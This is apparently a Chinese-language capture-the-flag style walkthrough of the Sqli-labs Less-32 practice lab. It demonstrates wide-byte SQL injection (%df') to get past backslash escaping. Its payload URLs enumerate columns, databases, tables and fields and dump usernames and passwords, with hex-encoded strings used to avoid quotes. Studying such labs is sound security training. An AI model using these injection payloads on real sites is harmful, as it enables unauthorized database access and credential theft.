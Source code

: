 
# Sqli-labs-Less-32
![](https://img-blog.csdnimg.cn/2020072510125990.png#crop=0&crop=0&crop=1&crop=1&id=rOTBj&originHeight=99&originWidth=1066&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**查询注入点**<br />http://www.web.com/sql/Less-32/?id=1'<br />报错查看提示<br />显示单引号被转义符（反斜线）转义，导致参数无法逃逸单引号的包围<br />![](https://img-blog.csdnimg.cn/20200725101532895.png#crop=0&crop=0&crop=1&crop=1&id=e99Yw&originHeight=64&originWidth=494&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**此时可以使用宽字节注入在地址后加一个%df，再加单引号**<br />http://www.web.com/sql/Less-32/?id=1%df' <br />报错<br />![](https://img-blog.csdnimg.cn/20200725103252636.png#crop=0&crop=0&crop=1&crop=1&id=TWPIi&originHeight=68&originWidth=1344&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**进行注释后成功**<br />http://www.web.com/sql/Less-32/?id=1%df' --+<br />![](https://img-blog.csdnimg.cn/20200725103321815.png#crop=0&crop=0&crop=1&crop=1&id=LkXiq&originHeight=162&originWidth=366&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看列数**<br />http://www.web.com/sql/Less-32/?id=1%df'  order by 3--+<br />当等于4时报错，等于3时正确，说明有3列<br />![](https://img-blog.csdnimg.cn/2020072510343684.png#crop=0&crop=0&crop=1&crop=1&id=g8dRR&originHeight=35&originWidth=471&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看当前库**<br />http://www.web.com/sql/Less-32/?id=1%df'  union select 1,2,database()--+<br />![](https://img-blog.csdnimg.cn/20200725103536296.png#crop=0&crop=0&crop=1&crop=1&id=xoEAa&originHeight=120&originWidth=281&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有库**<br />http://www.web.com/sql/Less-32/?id=1%df'  union select 1,2,group_concat(schema_name) from information_schema.schemata--+<br />![](https://img-blog.csdnimg.cn/20200725103717353.png#crop=0&crop=0&crop=1&crop=1&id=A8XVo&originHeight=140&originWidth=1230&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有表**<br />http://www.web.com/sql/Less-32/?id=1%df'  union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+<br />报错<br />![](https://img-blog.csdnimg.cn/20200725104046819.png#crop=0&crop=0&crop=1&crop=1&id=hK5kS&originHeight=65&originWidth=1341&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**我们将security转换为十六进制的形式（建议通常也使用十六进制）**<br />http://www.web.com/sql/Less-32/?id=1%df'  union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479--+<br />![](https://img-blog.csdnimg.cn/20200725104221289.png#crop=0&crop=0&crop=1&crop=1&id=bYTVL&originHeight=151&originWidth=536&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有字段**<br />http://www.web.com/sql/Less-32/?id=1%df'  union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273--+<br />![](https://img-blog.csdnimg.cn/20200725105612885.png#crop=0&crop=0&crop=1&crop=1&id=Hw9k4&originHeight=148&originWidth=1348&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看账户和密码**<br />http://www.web.com/sql/Less-32/?id=1%df'  union select 1,2,group_concat(concat_ws('~',username,password)) from security.users--+<br />报错<br />![](https://img-blog.csdnimg.cn/20200725105840696.png#crop=0&crop=0&crop=1&crop=1&id=Z4V8u&originHeight=70&originWidth=1342&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**将‘~’转换为十六进制**<br />http://www.web.com/sql/Less-32/?id=1%df'  union select 1,2,group_concat(concat_ws(0x7e,username,password)) from security.users--+<br />![](https://img-blog.csdnimg.cn/20200725105918351.png#crop=0&crop=0&crop=1&crop=1&id=aNiVb&originHeight=156&originWidth=1337&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以此类推爆出所有数据。**
